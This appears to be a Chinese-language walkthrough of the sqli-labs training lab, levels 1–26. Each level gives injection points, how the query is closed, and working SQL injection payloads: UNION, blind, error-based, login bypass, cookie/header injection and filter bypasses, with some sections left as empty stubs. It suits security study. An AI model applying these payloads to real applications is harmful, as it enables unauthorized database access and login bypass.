



## Less-1

 + 是否有报错,是否回显(数据库数据回显界面,首先考虑联合查询方式)

+ 有报错

 - 字符型注入

- 闭合方式:
 '
  单引号

+ 注入Payload:(#urlencode=%23)

```bash
    ?id=-1' union all select 1,version(),3   %23     // #
    ?id=-1' union all select 1,version(),3  --+      //--+
    ?id=-1' union all select 1,version(),3  --%20    // --空格
```
## Less-2

 + 变换ID参数界面有回显， 如果存在SQL注入漏洞，首先考虑联合查询方式

+ 输入单引号，界面有报错， 从报错信息中可知是，

+ 注入方式:
数字型注入

+ 注入Payload:

```bash
    ?id=1 and 1=2 --+  
    ?id=1 and 1=1 --+
```

+ 页面有变化，表明存在boolean-based blind sql injection 

+ 数字型没有闭合方式，直接 注释掉后面的sql 语句即可

```bash
    ?id=1 and sleep(5)--+ 
```

+ 网络时间线 为5ms ，则可判断存在time-based bling sql injection 延时注入的漏洞

+ Payload:

```bash
    ?id=1 and 1=2 union all select 1,database(),3 --+  
```   

## Less-3

+ 输入不同ID参数，页面显示不同，说明与数据库有交互，
输入数字后面带个单引号，提示有报错
存在报错注入

+ 通过报错信息可知  sql 语句闭合方式为：

+ ‘）字符型注入

+ Payload:

```bash
    ?id=3') --+  # 界面显示正常
    ?id=3') and 1=2 --+
    ?id=3') and 1=1 --+     # 界面有回显并且用变化，说明存在布尔类型的注入漏洞
    ?id=3') and sleep(5) --+  #界面网络时间线，有５ｍｓ　说明存在延时注入漏洞
```

+ 注入Payload：
```bash
    ?id=3') and 1=2 union all select 1,@@datadir,current_user() --+
```
## Less-4

+ 输入不同ID参数，页面显示不同，说明与数据库有交互，界面有回显。如果存在ｓｑｌ注入漏洞首先使用联合查询方式
参数后输入单引号　，页面没有变化　，输入双引号，页面报错。从报错信息中可知，

+ 闭合方式：
　　”）
　　字符型注入

```bash
    ?id=4")  --+　　　　　　　＃页面很和谐　，显示正常　
    ?id=4") and 1= 2 --+
    ?id=4") and 1= １ --+　　＃存在布尔类型注入
    ?id=4") and sleep(5) --+　＃存在延时类型注入
```

+ Payload :
```bash
    ?id=4") and 1=2 union all select 1,hex(database()),user() --+
```


## Less-5

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，不能用联合查询方式　
输入参数后面带　单引号　，页面报错，说明存在报错注入漏洞　
有报错可以用报错注入方法。

+ 通过回显的报错信息　可知闭合方式为　：单引号：‘ 字符型注入

+ 注入测试：
```bash
    ?id=3' --+　　　＃页面很和谐　，注释了　单引号后面　的ＳＱＬ　语句
    ?id=3' and 1=１--+
    ?id=3' and 1=2 --+　　　　＃两次ｐａｙｌｏａｄ输入后，页面显示不同，说明存在布尔类型注入漏洞
    ?id=3' and sleep(5) --+　　　＃页面时间县　有５ｍｓ　　，　说明存在延时类型注入　漏洞
```

+ 注入Payload:
```bash
    ?id=3' and length(database())=8 --+　＃布尔类型注入方法　１＝２　
    ?id=3' and updatexml(1,concat(0x5e,(select version()),0x3a),1)--+
    ?id=3' and updatexml(1,concat('^',(select version()),'^'),1)--+    #报错注入方法
    ?id=3' and extractvalue(1,concat('^',(select version()),'^'))--+
```


## Less-6

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，所以不能用联合查询方式，　输入参数后面带　双引号　，　页面报错　报错说明存在报错注入漏洞　


+ 通过报错信息可知，　　闭合方式：
　　　＂
　字符型注入

+ 注入测试:

```bash
    ?id=2"--+　　　　　　　　＃页面很和谐
    ?id=2" and 1=１--+
    ?id=2" and 1=2--+　　　　＃存在布尔类型注入
    ?id=2"and sleep(5)--+　　　＃存在时间线５ｍｓ　可用岩石注入
```

+ 注入Payload：
```bash
    ?id=2"and updatexml(1,concat(0x3a,version(),0x3a),1)--+
    ?id=2"and extractvalue(1,concat(0x5e,version(),0x5e)) --+
```


## Less-7

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，　不能用联合查询方式,输入参数后面带　单引号　，　报错　说明存在报错注入漏洞　

+ 但是通过报错信息无法判断闭合方式　

+ 代码审计发现：
+ 闭合方式：
　　　＇））

+ 注入测试：
```bash
    ?id=1')) --+　　　　　　　　＃很和谐
    ?id=1'))and 1=１ --+　　　　　
    ?id=1'))and 1=2 --+　　　　　＃存在　布尔类型注入漏洞
    ?id=1'))and sleep(5) --+　　　＃页面时间县　有５ｍｓ　　，　说明存在延时类型注入　漏洞
```

+ 注入Payload：

```bash
    ?id=1')) and length(database())=8 --+　　
    ?id=1')) and ascii(substr(database(),1,1))=0x73 --+
    ?id=1')) and ascii(substr(database(),1,1))=115 --+　　＃字母　：ｓ　
```


## Less-8

+ 输入不同ＩＤ参数，页面显示不变，表明没有回显　，　不能用联合查询方式
没有回显，没有报错。　
+ 输入单引号　　，页面有变化　　添加　－－＋　强制闭合

+ 闭合方式：
　　＇
单引号

+ 注入测试：

    ```bash
    ?id=2'  --+　
    ?id=2' and 1=１ --+
    ?id=2' and 1=2 --+　　　＃存在布尔类型状态
    ?id=2' and sleep(5) --+
    ```

+ 注入Payload：　

    ```bash
    ?id=2' and length(database())=8 --+
    ```

## Less-9

+ 没有报错，没有回显，　没有布尔类型状态　
添加　单引号后　，有岩石状态

+ 闭合方式　：
　　‘　单引号

+ 注入测试:
　字符型

+ 注入Payload：　
    ```bash
    ?id=2' and sleep(5) --+
    ?id=2' and if(length(database())=8,sleep(5),1) --+
    ?id=2' and if(ascii(substr(database(),2,1))=101,sleep(5),1) --+
    ```

## Less-10
　　　
+ 没有报错，没有回显，　没有布尔类型状态　

+ 输入　用户名后加单一号有报错，

+ 添加　双引号后加sleep()函数，有延时状态

+ 闭合方式：
　＂　双引号

+ 注入测试:

+ 注入Payload：
    ```bash
    ?id=3" and if(length(database())=1,sleep(5),1) --+
    ?id=3" and if(substr(database(),1,1)='a',sleep(5),1) --+
    ```


+ 也可半自动化注入（burpsuit）　


## Less-11

+ Username输入`admin`　 Password输入　`admin`　
页面正常显示，当用户名后添加　单引号时，页面返回错误报错

+ 通过报错信息得知　，闭合方式　；
　＇单引号　
字符型注入
　
+ 注入Payload：
    ```bash
    admin'--+ 
    admin' #  密码任意　　　　页面很和谐，　可正常显示。（万能用户名）
    admin1' or 1 -- 
    Dumb' or '1'='1   #万能用户名
    ```


    　
## Less-12

+ 输入：用户名　`admin`　密码　`admin`

+ `admin' ` 密码：123   没有报错　，没有回显
+ `admin" ` 密码：123   有报错　　　


+ 通过报错信息，可知　闭合方式　：
　　“）
　　密码位置报错可知闭合方式

+ 注入方式:
　　字符型

+ 注入Payload：　
    ```bash
    admin1")or ("1=1") or ("　　＃返回数组第一行
    admin") or ("　　　　　　　密码任意　　＃万能用户名　
    Dumb") or ("")--  
    Dumb")-- 
    ```


## Less-13

+ 输入：用户名　`admin`　密码　`admin`

+ `admin"` , 123   没有报错　，没有回显
+ `admin'` , 123   有报错　　　

+ 字符型注入,
闭合方式　：
　　')

+ 注入Payload:
    ```bash
    admin') -- 
    ```

## Less-14

+ 输入`admin"`  密码任意，提示报错 通过报错信息可知 闭合方式为：双引号 `"`


+ 注入方式:字符型

+ 注入Payload：
    ```bash
    admin1"or "1"="1   # 密码任意

    admin1"or 1 --      # 返回数组第一行

    asd"or 1 --         # 刚刚空格 ，  任意帐号密码登陆
    ```

## Less-15

+ 常规输入没有反应 ，但是  输入：`admin' -- ` 和 `123 -- `后可登陆成功 ,用已知用户名，任意密码


+ 闭合方式：
  `'`
  单引号

+ 注入Payload:


## Less-16

+ 无报错，无回显 

+ 输入 `admin") -- `  任意密码即可登陆 

+ 闭合方式:`")`

+ Payload :
    ```bash
    ") or 1 --+   任意密码  即可登陆成功 
    是否有报错,是否回显
    ```

## Less-17

+ 是否有报错,是否回显

+ 注入方式:

+ 注入Payload

+ 请求头，应该用 # 或者 --空格  注释 ，--+只能在RUL中使用，在URL中# 编码后 带入数据库是 空格 

## Less-18

+ 正常输入 页面显示 UserAgent 信息， 考虑 UA注入
修改UA信息可以正常显示，UA后面夹 单引号， 页面报错，

+ 根据报错信息显示，可知闭合方式：
‘）  字符型注入 

+ 注入方式:

+ 注入Payload：
    ```bash
    ajest' and updatexml(1,concat('^',(select version()),'^'),1) and  '1'='1
    ```

## Less-19

+ referer 注入 

+ 正常输入，返回referer 值 ， 考虑 referer 注入 bp抓包 

+ 修改referer 值可正常页面显示 
+ referer" 显示正常
+ referer' 页面有回显 ，报错 ，说明referer 值被带入数据库，进行读写

+ 闭合方式：
    ```bash
    ajest'  and '1'='1
    ```

+ 注入Payload
    ```bash
    ajest' and updatexml(1,concat('^',(select version()),'^'),1) and '1'='1
    ```

## Less-20

+ 此关 正常输入，会一直显示 ILOVEYOU COOKIE ，此提示是让你添加 cookie 头部信息，同时需要删除 POST请求 

+ 用burpsuit 抓包 修改后，结果页面显示如下：

+ 页面会返回 YOUR USER AGENT/YOU IP ADDRESS/YOU COOKIE  
+ 用bp 修改  COOKIE 后面添加  双引号  ，页面显示正常。 添加 单引号 页面报错  ， 报错信息中可知  ：

+ 闭合方式： ‘ 单引号
+ 字符型注入

+ 用报错注入进行测试
    ```bash
    Cookie:uname=Dumb' #          #返回界面 显示 很和谐，正常 

    Cookie:uname=Dumb' --+        #返回界面 显示 很和谐，正常 

    Cookie:uname=Dumb' --      # 用杠杠空格 进行注释  ，页面报错 
    ```

+ 注入Payload：
    ```bash
    Cookie:uname=Dumb' and updatexml(1,concat('^',(select version()),'^'),1) # 

    Cookie:uname=Dumb' and updatexml(1,concat('^',(select version()),'^'),1) --+
    ```

+ 也可在浏览器控制台中进行 COOKIE 注入 

    ```bash
    document.cookie="uname=Dumb' and updatexml(1,concat('^',(select version()),'^'),1) --+"
    ```

+ 注入后 刷新界面。注意 COOKIE 字段 需要 双引号 包围 ！！！

## Less-21

+ 正常用户名:Dumb密码:Dumb 输入， 页面回显 YOUR COOKIE : uname = RHVtYg== and expires: Sat 08 Oct 2022 - 11:50:48


+ 回显用户名为Base64 编码方式 

 

+ 通过burpsuit  抓包发现 ，HTTP history 中，正常登陆时 有两个请求，

+ 首先是 POST请求状态码302  ，然后GET请求状态码200 ,
在GET 请求中 有Cookie字段，内容为Base64 编码， 页面返回内容就是GET请求的Cookie字段 

+ 所以尝试 修改 GET 请求中的 Cookie 字段  （需Base64 编码）

+ Cookie 字段后面夹  ‘    单引号 报错

+ 报错信息可知，闭合方式：  ’）
+ 单引号 括号 
+ 字符型注入

+ 注入测试：
    ```bash
    Dumb' or '1'='1 （RHVtYicgb3IgJzEnPScx） # 页面显示很和谐 
    ```


+ 注入Payload:
    ```bash
    Dumb' and updatexml(1,concat('^',(select version()),'^'),1) or '1'='1(RHVtYicgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgJzEnPScx)

    Cookie: uname=RHVtYicgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgJzEnPScx
    ```



## Less-22

+ 正常输入显示 同21关
+ 通过 burpsuit 抓包 可知POST请求 重定向  GET请求 ，内涵 Cookie 字段，


+ Cookie 字段后面夹  “   双引号 报错


+ 报错信息可知，闭合方式： ”
+ 字符型注入
+ 双引号

+ 注入测试：

+ Cookie字段  uname=
    ```bash
    Dumb" or "1" ="1
    RHVtYiIgb3IgIjEiID0iMQ==      #输入后页面和和谐   。没有报错

    Dumb" or "1 #
    RHVtYiIgb3IgIjEgIw==           # 输入后页面很和谐

    Dumb" "1 #
    RHVtYiIgIjEgIw==                     # 输入后页面很和谐

    Dumb""
    RHVtYiIi			  # 输入后页面很和谐
    ```
+ 注入Payload：
    ```bash
    Cookie字段  uname=

    Dumb" and updatexml(1,concat('^',(select version()),'^'),1) or "1 

    RHVtYiIgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgIjEg


    Dumb" and updatexml(1,concat('^',(select version()),'^'),1) or " 1 #

    RHVtYiIgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgIiAxICM=
    ```


## Less-23

+ 正常输入 数据库有回显， 变化 id参数  数据库回显有变化 

+ id参数后 接  “ 双引号  页面较之前没有变化 


+ id参数后 接  ‘  单引号  页面较之前有报错 。 从报错信息可知， 闭合方式 ： 
 ’ 
字符型注入

+ 注入测试：

    ```bash
    http://10.0.2.15/sqli-labs/Less-23/?id=2' or '1'='1             # 页面很和谐 
    ```

+ 注入Payload:   报错注入
    ```bash
    http://10.0.2.15/sqli-labs/Less-23/?id=2' and extractvalue(1,concat('^',(select version()),'^')) or '1'='1 
    ```


## Less-24 

+ 二次注入 逻辑漏洞

+ 首先使用 账号： Dump ，密码： Dump  正常登陆后，显示可以修改密码 

+ 首页有忘记密码 ，和 注册新帐号 选项 

+ 选择  注册新账号 
+ 考虑存在注入漏洞 ，注册账号时 注册一个 已有账号 后面，接 特殊字符  如 ： Dumb' 或者 Dumb"  或者 Dumb）或者 Dumb' #   、 Dumb" #   、 Dumb) #  、 Dumb' -- 

+ 注册完成后，进入界面 ，有修改密码选项   ，尝试对 新注册用户进行 密码修改 

+ 对 Dumb' # 账号进行密码修改123， 实际是修改 Dumb 账号的 密码 (Dumb' # 账号密码并未更改)
+ 登出后，Dumb：123 （原密码：Dumb）

+ 注入Payload:

+ 注册新账号： Dumb' #   ： 123456     /  Dumb' -- :123456


+ 登陆账号 ：Dumb' #/Dumb' -- 登陆成功后，按要求修改密码：654321 reset后 退出账号 

+ 登陆 Dumb：654321 发现登陆成功 。

## Less-25

+ 输入id参数 页面回显输入的参数  ， 当在参数后面添加 特殊字符时 ，发现页面过滤了 "字符"：or and 

+ 参数后 添加 ‘、“、） 时 ，其他 ‘  单引号 ，页面回显报错 




+ 通过报错信息可知，闭合方式：

    ’ 单引号 
+ 可以考虑结尾需要参数和单引号闭合  ： id=1’and‘1     id=2’and‘1

+ 由于，or ,and 被过滤  所以考虑 union all select  注入方式 ， 另外 ，选择双写绕过  oorr, aandnd

 
+ 输入 id=1 union all select '1  页面提示错误， 列数不对 

+ 输入 3列页面提示正常 


+ 注入测试：

    ```bash
    http://10.0.2.15/sqli-labs/Less-25/?id=2' oORr '1 
    http://10.0.2.15/sqli-labs/Less-25/?id=2' aandnd '1     # 两次输入都很和谐，页面显示正常 
    ```


+ 注入Payload:
    ```bash
    http://10.0.2.15/sqli-labs/Less-25/?id=-2' union all select 1,version() ,'3

    http://10.0.2.15/sqli-labs/Less-25/?id=2' aandnd updatexml(1,concat('^',(select version()),'^'),1) anandd'1 

    http://10.0.2.15/sqli-labs/Less-25/?id=2' oorr updatexml(1,concat('^',(select version()),'^'),1) oORr '1 
    ```


## Less-26 

+ 输入参数正常显示，参数后添加 单引号 ‘ ， 双引号 ” 小括号 ）  

+ 发现 添加 单引号   ’  页面回显报错   通过报错信息 可知，闭合方式： 单引号 ‘
字符型注入 


+ 输入参数; id=2' ' ,页面回显发现，空格被过滤掉  and，or 也过滤 


+ 过滤了空格 ，可以考虑需要空格 的地方，用小括号 括起来 。and or 绕过方法 ：1 ，双写 。2 &&/%26%26(代替and),     ||  (代替or)  ,注释符 # ，--空格， --+  被过滤，可以考虑 用 ；%00 ，00截断 代替。

+ 注入Payload:
    ```bash
    http://10.0.2.15/sqli-labs/Less-26/?id=2'anandd (updatexml(1,concat('^', version(),'^'),1))oorr'1'= '1 

    http://10.0.2.15/sqli-labs/Less-26/?id=2'%26%26 (updatexml(1,concat('^', version(),'^'),1))||'1'= '1

    http://10.0.2.15/sqli-labs/Less-26/?id=2'%26%26 (updatexml(1,concat('^', version(),'^'),1))||1;%00
    ```



Less-20

是否有报错,是否回显

注入方式:

注入Payload